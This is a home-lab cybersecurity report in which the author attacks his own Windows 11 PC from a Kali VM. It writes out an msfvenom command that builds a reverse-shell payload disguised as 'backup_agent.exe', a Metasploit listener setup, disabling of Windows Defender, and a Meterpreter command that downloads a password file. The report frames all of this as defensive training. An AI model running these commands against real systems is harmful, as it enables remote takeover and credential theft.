




# Cybersecurity Lab Report: Endpoint Intrusion & Data Exfiltration Simulation
**Author:** Josh B.  
**Date:** September 13, 2026  
**Role:** Entry-Level Cybersecurity Analyst / Technical Problem Solver

---

## 1. Executive Summary & Purpose

The purpose of this lab was to simulate a real-world security incident by executing a controlled cyberattack from an attack machine against my own personal Windows 11 computer. 

In a corporate environment, companies often make the mistake of relying entirely on an antivirus program to keep them safe. This lab solves a major problem for businesses: it demonstrates exactly what a threat actor can do if they trick an employee into running a malicious file, and it highlights how we can fix these vulnerabilities before a real breach occurs.

---

## 2. Lab Environment Setup

To keep this test completely safe and isolated, the environment was configured using a private virtual network loop:
* **Attacker Machine:** Kali Linux VM (IP: `192.168.87.128`)
* **Victim Machine:** Windows 11 Personal Host PC (IP: `192.168.87.1`)
* **Testing Software:** Metasploit Framework (`msfvenom` and `msfconsole`)

---

## 3. Step-by-Step Technical Walkthrough

### Step 1: Creating the Malicious File (Payload)
Using the terminal in Kali Linux, I utilized a tool called `msfvenom` to create a custom Windows file named `backup_agent.exe`. This file is designed as a "reverse shell," meaning that when it runs, it forces the Windows computer to call back to my Kali Linux machine over the network.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.87.128 LPORT=4444 -f exe -o backup_agent.exe
```

> ****  


---

### Step 2: Preparing the Trap (Setting up the Listener)
Before sending the file over, I had to open up Metasploit on Kali Linux and configure it to listen for the incoming connection. I set the listening IP address to my Kali VM and the port to 4444.

```text
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.87.128
set LPORT 4444
run
```

> ****  
> *Figure 2: Configuring the Metasploit multi/handler to listen for the incoming connection from the Windows host.*

---

### Step 3: Executing the Phishing Simulation
To get the file onto my Windows PC, I hosted a quick web server on Kali and downloaded the file. Because this is a known test file, modern security tools would block it. To simulate a "Zero-Day" attack (a brand-new attack that antivirus tools don't recognize yet), I temporarily paused Windows Defender.

Once I double-clicked `backup_agent.exe` on my Windows host, the file immediately established a connection back to Kali Linux. Running the commands `sysinfo` and `getuid` confirmed that I had successfully gained remote access to my Windows 11 PC under my user profile.

---

### Step 4: Finding and Stealing the Target Data
Among the files listed on the host computer, I spotted a high-value file named `Company_Passwords.txt`. 

To steal it, I typed `exit` to leave the Windows command prompt and return to the advanced **Meterpreter** prompt. From there, I used the built-in `download` command to pull the file across the network and save it to my Kali Linux machine.

```text
meterpreter > download C:\\Users\\JoshB\\Downloads\\Downloads\\Company_Passwords.txt /home/jbbpm/Desktop/
```


> ****
> *Figure 4: Executing the file download command in Meterpreter to successfully transfer the password file to Kali.*

To verify the attack worked, I checked the contents of the stolen file on my Kali Linux desktop using the `cat` command. The file contained cleartext passwords for several corporate users.

```bash
cat Company_Passwords.txt
```

> ****  
> *Figure 5: Viewing the stolen corporate credentials directly from the Kali Linux desktop.*

---

## 4. How this Provides Value in a Corporate Environment

An entry-level analyst who can perform this type of simulation brings massive value to a corporate security team by bridging the gap between a technical glitch and business risk:

1. **Proactive Risk Identification:** Running this simulation allows a business to fix security gaps *before* a real criminal finds them. This saves the company from costly ransomware cleanup fees, data breach lawsuits, and massive reputation damage.
2. **Proving the Need for "Data Encryption":** This lab proves that keeping passwords in a simple text file (`.txt`) is highly dangerous. If an employee's computer is ever compromised, a hacker can read all company secrets instantly. I can provide immediate corporate value by advocating for **Data at Rest Encryption** and the use of an enterprise Password Manager.
3. **Improving Defensive Alerting:** By watching how this attack behaves on the network (initiating an unusual outbound connection on port 4444), I can help network defenders create smart firewall rules to block and flag this specific behavior in the future.

---

## 5. Post-Lab Security Cleanup

Following strict professional guidelines, I safely restored the testing environment back to its original secure baseline:
1. Deleted the `backup_agent.exe` payload from the Windows host machine.
2. Deleted the stolen copy of `Company_Passwords.txt` from the Kali Linux machine.
3. **Turned Windows Defender Real-time Protection back ON** to ensure the host computer is fully secure.
